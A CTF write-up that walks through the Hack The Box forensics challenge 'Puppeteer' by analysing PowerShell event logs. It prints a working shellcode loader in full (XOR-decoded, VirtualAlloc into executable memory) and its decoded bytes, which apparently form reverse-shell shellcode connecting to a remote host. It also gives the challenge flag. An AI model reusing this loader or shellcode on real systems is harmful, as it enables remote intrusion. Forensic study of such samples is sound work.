

# Puppeteer
### forensics | 300 points | 787 solves

## Description
Planet Longhir is known for it's top-tier researchers. Due to their dedication in science and engineering, their military equipment is the most advanced one in the galaxy. In fact, the prototype DES-3000. a self-propelled precision-strike missile that is capable of reaching targets even in Ratnik galaxy, is being used to disable Galactic Federation's communication satellites. The mystery that Miyuki is trying to solve is, how the satellite's location was leaked since it is a top-sercret that only Galactic Federation's council is aware of. Help her analyse the Council's HQ event logs and solve this mystery.

## First Impressions
We were provided with a zip file, containing a folder called Logs. 


These logs have a file extension of `.evtx`, which is a log file created in windows to record events on the system. I searched for the flag directly using `grep`, but looks like this challenge is a little more complicated than that.

## Solution

Being new to Windows forensics, I made two attempts at this challenge. The first one was to use a python script called `evtx_dump.py` that, as the name suggests, dumps the contents of the log file in XML format. I tried looking for stuff through this but quickly got overwhelmed with the amount of information in the logs. I figured I would need to look for interesting files to look into or a similar CTF challenge online.

And that's what I did. I luckily found a solution to a very similar challenge (also from Hack the Box!) called [Event Horizon](https://josh-vr.medium.com/hackthebox-event-horizon-forensics-challenge-writeup-b32839a3307d), written by Josh. The writeup provides a good introduction to Event Logs and the different log files that could have some information.

Based on the writeup, I checked the `Microsoft-Windows-PowerShell%4Operational.evtx` file in the Event Viewer. Looking through the logs, I found a long script, with this particular part standing out.



```powershell
$OleSPrlmhB = @"
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
"@

[byte[]] $stage1 = 0x99, 0x85, 0x93, 0xaa, 0xb3, 0xe2, 0xa6, 0xb9, 0xe5, 0xa3, 0xe2, 0x8e, 0xe1, 0xb7, 0x8e, 0xa5, 0xb9, 0xe2, 0x8e, 0xb3;
[byte[]] $stage2 = 0xac, 0xff, 0xff, 0xff, 0xe2, 0xb2, 0xe0, 0xa5, 0xa2, 0xa4, 0xbb, 0x8e, 0xb7, 0xe1, 0x8e, 0xe4, 0xa5, 0xe1, 0xe1;

$tNZvQCljVk = Add-Type -memberDefinition $OleSPrlmhB -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]] $HVOASfFuNSxRXR = 0x2d,0x99,0x52,0x35,0x21,0x39,0x1d,0xd1,0xd1,0xd1,0x90,0x80,0x90,0x81,0x83,0x99,0xe0,0x03,0xb4,0x99,0x5a,0x83,0xb1,0x99,0x5a,0x83,0xc9,0x80,0x87,0x99,0x5a,0x83,0xf1,0x99,0xde,0x66,0x9b,0x9b,0x9c,0xe0,0x18,0x99,0x5a,0xa3,0x81,0x99,0xe0,0x11,0x7d,0xed,0xb0,0xad,0xd3,0xfd,0xf1,0x90,0x10,0x18,0xdc,0x90,0xd0,0x10,0x33,0x3c,0x83,0x99,0x5a,0x83,0xf1,0x90,0x80,0x5a,0x93,0xed,0x99,0xd0,0x01,0xb7,0x50,0xa9,0xc9,0xda,0xd3,0xde,0x54,0xa3,0xd1,0xd1,0xd1,0x5a,0x51,0x59,0xd1,0xd1,0xd1,0x99,0x54,0x11,0xa5,0xb6,0x99,0xd0,0x01,0x5a,0x99,0xc9,0x81,0x95,0x5a,0x91,0xf1,0x98,0xd0,0x01,0x32,0x87,0x99,0x2e,0x18,0x9c,0xe0,0x18,0x90,0x5a,0xe5,0x59,0x99,0xd0,0x07,0x99,0xe0,0x11,0x90,0x10,0x18,0xdc,0x7d,0x90,0xd0,0x10,0xe9,0x31,0xa4,0x20,0x9d,0xd2,0x9d,0xf5,0xd9,0x94,0xe8,0x00,0xa4,0x09,0x89,0x95,0x5a,0x91,0xf5,0x98,0xd0,0x01,0xb7,0x90,0x5a,0xdd,0x99,0x95,0x5a,0x91,0xcd,0x98,0xd0,0x01,0x90,0x5a,0xd5,0x59,0x90,0x89,0x90,0x89,0x8f,0x88,0x99,0xd0,0x01,0x8b,0x90,0x89,0x90,0x88,0x90,0x8b,0x99,0x52,0x3d,0xf1,0x90,0x83,0x2e,0x31,0x89,0x90,0x88,0x8b,0x99,0x5a,0xc3,0x38,0x9a,0x2e,0x2e,0x2e,0x8c,0x98,0x6f,0xa6,0xa2,0xe3,0x8e,0xe2,0xe3,0xd1,0xd1,0x90,0x87,0x98,0x58,0x37,0x99,0x50,0x3d,0x71,0xd0,0xd1,0xd1,0x98,0x58,0x34,0x98,0x6d,0xd3,0xd1,0xd4,0xe8,0x11,0x79,0xd1,0xc3,0x90,0x85,0x98,0x58,0x35,0x9d,0x58,0x20,0x90,0x6b,0x9d,0xa6,0xf7,0xd6,0x2e,0x04,0x9d,0x58,0x3b,0xb9,0xd0,0xd0,0xd1,0xd1,0x88,0x90,0x6b,0xf8,0x51,0xba,0xd1,0x2e,0x04,0xbb,0xdb,0x90,0x8f,0x81,0x81,0x9c,0xe0,0x18,0x9c,0xe0,0x11,0x99,0x2e,0x11,0x99,0x58,0x13,0x99,0x2e,0x11,0x99,0x58,0x10,0x90,0x6b,0x3b,0xde,0x0e,0x31,0x2e,0x04,0x99,0x58,0x16,0xbb,0xc1,0x90,0x89,0x9d,0x58,0x33,0x99,0x58,0x28,0x90,0x6b,0x48,0x74,0xa5,0xb0,0x2e,0x04,0x54,0x11,0xa5,0xdb,0x98,0x2e,0x1f,0xa4,0x34,0x39,0x42,0xd1,0xd1,0xd1,0x99,0x52,0x3d,0xc1,0x99,0x58,0x33,0x9c,0xe0,0x18,0xbb,0xd5,0x90,0x89,0x99,0x58,0x28,0x90,0x6b,0xd3,0x08,0x19,0x8e,0x2e,0x04,0x52,0x29,0xd1,0xaf,0x84,0x99,0x52,0x15,0xf1,0x8f,0x58,0x27,0xbb,0x91,0x90,0x88,0xb9,0xd1,0xc1,0xd1,0xd1,0x90,0x89,0x99,0x58,0x23,0x99,0xe0,0x18,0x90,0x6b,0x89,0x75,0x82,0x34,0x2e,0x04,0x99,0x58,0x12,0x98,0x58,0x16,0x9c,0xe0,0x18,0x98,0x58,0x21,0x99,0x58,0x0b,0x99,0x58,0x28,0x90,0x6b,0xd3,0x08,0x19,0x8e,0x2e,0x04,0x52,0x29,0xd1,0xac,0xf9,0x89,0x90,0x86,0x88,0xb9,0xd1,0x91,0xd1,0xd1,0x90,0x89,0xbb,0xd1,0x8b,0x90,0x6b,0xda,0xfe,0xde,0xe1,0x2e,0x04,0x86,0x88,0x90,0x6b,0xa4,0xbf,0x9c,0xb0,0x2e,0x04,0x98,0x2e,0x1f,0x38,0xed,0x2e,0x2e,0x2e,0x99,0xd0,0x12,0x99,0xf8,0x17,0x99,0x54,0x27,0xa4,0x65,0x90,0x2e,0x36,0x89,0xbb,0xd1,0x88,0x98,0x16,0x13,0x21,0x64,0x73,0x87,0x2e,0x04;

[array]::Reverse($stage2);

$hRffYLENA = $tNZvQCljVk::VirtualAlloc(0,[Math]::Max($HVOASfFuNSxRXR.Length,0x1000),0x3000,0x40);

$stage3 = $stage1 + $stage2;

[System.Runtime.InteropServices.Marshal]::Copy($HVOASfFuNSxRXR,0,$hRffYLENA,$HVOASfFuNSxRXR.Length);


# Unpack Shellcode;

for($i=0; $i -lt $HVOASfFuNSxRXR.count ; $i++)
{
    $HVOASfFuNSxRXR[$i] = $HVOASfFuNSxRXR[$i] -bxor 0xd1;
}

#Unpack Special Orders!

for($i=0;$i -lt $stage3.count;$i++){
    $stage3[$i] = $stage3[$i] -bxor 0xd1;
}
```

It seems like two arrays `stage1` and the reverse of `stage2` are combined and each character is XORed with the hex `0xd1` or 209 in decimal. As I'm not very familiar with running scripts in Powershell, I took the relevant parts from this script and made a similar script in Python. I wasn't sure if the `$HVOASfFuNSxRXR` array and the XOR operation on it was of any significance, but I added it to the script anyways.

```python
stage1 = bytearray(b'\x99\x85\x93\xaa\xb3\xe2\xa6\xb9\xe5\xa3\xe2\x8e\xe1\xb7\x8e\xa5\xb9\xe2\x8e\xb3')
stage2 = bytearray(b'\xac\xff\xff\xff\xe2\xb2\xe0\xa5\xa2\xa4\xbb\x8e\xb7\xe1\x8e\xe4\xa5\xe1\xe1')

stage2.reverse()

something = bytearray(b'\x2d\x99\x52\x35\x21\x39\x1d\xd1\xd1\xd1\x90\x80\x90\x81\x83\x99\xe0\x03\xb4\x99\x5a\x83\xb1\x99\x5a\x83\xc9\x80\x87\x99\x5a\x83\xf1\x99\xde\x66\x9b\x9b\x9c\xe0\x18\x99\x5a\xa3\x81\x99\xe0\x11\x7d\xed\xb0\xad\xd3\xfd\xf1\x90\x10\x18\xdc\x90\xd0\x10\x33\x3c\x83\x99\x5a\x83\xf1\x90\x80\x5a\x93\xed\x99\xd0\x01\xb7\x50\xa9\xc9\xda\xd3\xde\x54\xa3\xd1\xd1\xd1\x5a\x51\x59\xd1\xd1\xd1\x99\x54\x11\xa5\xb6\x99\xd0\x01\x5a\x99\xc9\x81\x95\x5a\x91\xf1\x98\xd0\x01\x32\x87\x99\x2e\x18\x9c\xe0\x18\x90\x5a\xe5\x59\x99\xd0\x07\x99\xe0\x11\x90\x10\x18\xdc\x7d\x90\xd0\x10\xe9\x31\xa4\x20\x9d\xd2\x9d\xf5\xd9\x94\xe8\x00\xa4\x09\x89\x95\x5a\x91\xf5\x98\xd0\x01\xb7\x90\x5a\xdd\x99\x95\x5a\x91\xcd\x98\xd0\x01\x90\x5a\xd5\x59\x90\x89\x90\x89\x8f\x88\x99\xd0\x01\x8b\x90\x89\x90\x88\x90\x8b\x99\x52\x3d\xf1\x90\x83\x2e\x31\x89\x90\x88\x8b\x99\x5a\xc3\x38\x9a\x2e\x2e\x2e\x8c\x98\x6f\xa6\xa2\xe3\x8e\xe2\xe3\xd1\xd1\x90\x87\x98\x58\x37\x99\x50\x3d\x71\xd0\xd1\xd1\x98\x58\x34\x98\x6d\xd3\xd1\xd4\xe8\x11\x79\xd1\xc3\x90\x85\x98\x58\x35\x9d\x58\x20\x90\x6b\x9d\xa6\xf7\xd6\x2e\x04\x9d\x58\x3b\xb9\xd0\xd0\xd1\xd1\x88\x90\x6b\xf8\x51\xba\xd1\x2e\x04\xbb\xdb\x90\x8f\x81\x81\x9c\xe0\x18\x9c\xe0\x11\x99\x2e\x11\x99\x58\x13\x99\x2e\x11\x99\x58\x10\x90\x6b\x3b\xde\x0e\x31\x2e\x04\x99\x58\x16\xbb\xc1\x90\x89\x9d\x58\x33\x99\x58\x28\x90\x6b\x48\x74\xa5\xb0\x2e\x04\x54\x11\xa5\xdb\x98\x2e\x1f\xa4\x34\x39\x42\xd1\xd1\xd1\x99\x52\x3d\xc1\x99\x58\x33\x9c\xe0\x18\xbb\xd5\x90\x89\x99\x58\x28\x90\x6b\xd3\x08\x19\x8e\x2e\x04\x52\x29\xd1\xaf\x84\x99\x52\x15\xf1\x8f\x58\x27\xbb\x91\x90\x88\xb9\xd1\xc1\xd1\xd1\x90\x89\x99\x58\x23\x99\xe0\x18\x90\x6b\x89\x75\x82\x34\x2e\x04\x99\x58\x12\x98\x58\x16\x9c\xe0\x18\x98\x58\x21\x99\x58\x0b\x99\x58\x28\x90\x6b\xd3\x08\x19\x8e\x2e\x04\x52\x29\xd1\xac\xf9\x89\x90\x86\x88\xb9\xd1\x91\xd1\xd1\x90\x89\xbb\xd1\x8b\x90\x6b\xda\xfe\xde\xe1\x2e\x04\x86\x88\x90\x6b\xa4\xbf\x9c\xb0\x2e\x04\x98\x2e\x1f\x38\xed\x2e\x2e\x2e\x99\xd0\x12\x99\xf8\x17\x99\x54\x27\xa4\x65\x90\x2e\x36\x89\xbb\xd1\x88\x98\x16\x13\x21\x64\x73\x87\x2e\x04')

stage3 = bytearray(stage1 + stage2)

# Unpack Shellcode;
for i in range(len(something)):
	something[i] = something[i] ^ 0xd1;

#Unpack Special Orders!
for i in range(len(stage3)):
	stage3[i] = stage3[i] ^ 0xd1;
   
print(something)
print(stage3)
```

While the `something` array returned gibberish, `stage3` succesfully returns the flag for this challenge!

```bash
$ python3 sol.py
bytearray(b'\xfcH\x83\xe4\xf0\xe8\xcc\x00\x00\x00AQAPRH1\xd2eH\x8bR`H\x8bR\x18QVH\x8bR H\x0f\xb7JJM1\xc9H\x8brPH1\xc0\xac<a|\x02, A\xc1\xc9\rA\x01\xc1\xe2\xedRH\x8bR AQ\x8bB<H\x01\xd0f\x81x\x18\x0b\x02\x0f\x85r\x00\x00\x00\x8b\x80\x88\x00\x00\x00H\x85\xc0tgH\x01\xd0\x8bH\x18PD\x8b@ I\x01\xd0\xe3VH\xff\xc9M1\xc9A\x8b4\x88H\x01\xd6H1\xc0A\xc1\xc9\r\xacA\x01\xc18\xe0u\xf1L\x03L$\x08E9\xd1u\xd8XD\x8b@$I\x01\xd0fA\x8b\x0cHD\x8b@\x1cI\x01\xd0A\x8b\x04\x88AXAX^YH\x01\xd0ZAXAYAZH\x83\xec AR\xff\xe0XAYZH\x8b\x12\xe9K\xff\xff\xff]I\xbews2_32\x00\x00AVI\x89\xe6H\x81\xec\xa0\x01\x00\x00I\x89\xe5I\xbc\x02\x00\x059\xc0\xa8\x00\x12ATI\x89\xe4L\x89\xf1A\xbaLw&\x07\xff\xd5L\x89\xeah\x01\x01\x00\x00YA\xba)\x80k\x00\xff\xd5j\nA^PPM1\xc9M1\xc0H\xff\xc0H\x89\xc2H\xff\xc0H\x89\xc1A\xba\xea\x0f\xdf\xe0\xff\xd5H\x89\xc7j\x10AXL\x89\xe2H\x89\xf9A\xba\x99\xa5ta\xff\xd5\x85\xc0t\nI\xff\xceu\xe5\xe8\x93\x00\x00\x00H\x83\xec\x10H\x89\xe2M1\xc9j\x04AXH\x89\xf9A\xba\x02\xd9\xc8_\xff\xd5\x83\xf8\x00~UH\x83\xc4 ^\x89\xf6j@AYh\x00\x10\x00\x00AXH\x89\xf2H1\xc9A\xbaX\xa4S\xe5\xff\xd5H\x89\xc3I\x89\xc7M1\xc9I\x89\xf0H\x89\xdaH\x89\xf9A\xba\x02\xd9\xc8_\xff\xd5\x83\xf8\x00}(XAWYh\x00@\x00\x00AXj\x00ZA\xba\x0b/\x0f0\xff\xd5WYA\xbaunMa\xff\xd5I\xff\xce\xe9<\xff\xff\xffH\x01\xc3H)\xc6H\x85\xf6u\xb4A\xff\xe7Xj\x00YI\xc7\xc2\xf0\xb5\xa2V\xff\xd5')
bytearray(b'HTB{b3wh4r3_0f_th3_b00t5_0f_just1c3...}')
```

As of me typing this writeup after the challenge, I found [this article](https://www.sikich.com/insight/how-to-catch-powershell-script-attacks/) from Sikich that describes Powershell Script Attacks, including the scenario in this challenge under Script Block Logging.

Flag: `HTB{b3wh4r3_0f_th3_b00t5_0f_just1c3...}`
